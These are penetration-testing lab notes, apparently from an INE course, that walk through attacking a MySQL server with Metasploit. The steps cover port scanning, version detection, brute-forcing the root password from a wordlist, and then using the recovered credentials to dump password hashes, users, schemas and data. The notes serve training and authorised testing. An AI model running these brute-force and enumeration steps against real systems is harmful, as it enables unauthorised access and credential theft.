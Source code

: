 - MySQL is an open source relational database management system based on SQL (Structured Query Language).
- It is typically used to store records, customer data, and is most commonly deployed to store web application data.
- MySQL utilizes port 3306/tcp by default, however, like any service it can be hosted on any open TCP port. Hosting MySQL on non-common ports is a common practice for organizations.
- We can utilize auxiliary modules to enumerate the version of MySQL, perform brute-force attacks to identify passwords, execute SQL queries and much more.

Practical Demonstration
	- `ifconfig`
	- `service postgresql start`
	- `msfconsole`
	- `workspace -a mysql_enum`
	- `setg RHOSTS demo.ine.local`
	- `setg RHOST demo.ine.local`
	- Port scanning
		- `search portscan`
		- `use auxiliary/scanner/portscan/tcp`
		- `options`
		- `run`
	- MySQL Version Detection (and OS Detection)
		- `search type:auxiliary name:mysql`
		- `use auxiliary/scanner/mysql/mysql_version`
		- `options`
		- `set RPORT 3306`
		- `run`
	- For further enumeration, we need some form of access to the MySQL database, which we can obtain using either an exploit for the MySQL service, or by performing a bruteforce attack.
	- For bruteforce attacks, it is generally a good idea to perform them on the root user first.
		- `search mysql_login`
		- `use auxiliary/scanner/mysql/mysql_login`
		- `options`
		- `set USER root`
		- `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
		- `set VERBOSE false`
		- `run`
	- MySQL Enumeration using `mysql_enum`
		- (auxiliary/admin modules need user credentials to be used)
		- `search mysql_enum`
		- `use /auxiliary/admin/mysql/mysql_enum`
		- `info`
		- `options`
		- `set PASSWORD twinkle`
		- `set USERNAME root`
		- This module will also enumerate the password hashes for the MySQL database's user accounts, these hashes would need to be cracked to find out clear-text passwords.
		- This module also enumerates user and privilege information.
	- Execute SQL queries on the database using MySQL SQL module
		- `use auxiliary/admin/mysql/mysql_sql`
		- `set USERNAME root`
		- `set PASSWORD twinkle`
		- `set SQL select version()`
		- `set SQL show databases;`
		- `run`
		- `set SQL use videos;`
		- `set SQL show tables;`
	- MySQL Schema Enumeration using `mysql_schemadump`
		- `search mysql_schema`
		- `use auxiliary/scanner/mysql/mysql_schemadump`
		- `options`
		- `set USERNAME root`
		- `set PASSWORD twinkle`
		- The `loot` command in Metasploit lists the dumps we came across during the pen-testing process.
		- `loot`
		- The `creds` command in Metasploit lists all the credentials we came across during the pen-testing process.
		- `creds`
	- Connecting to the MySQL database using the `mysql` client.
		- `mysql -h demo.ine.local -u root -p`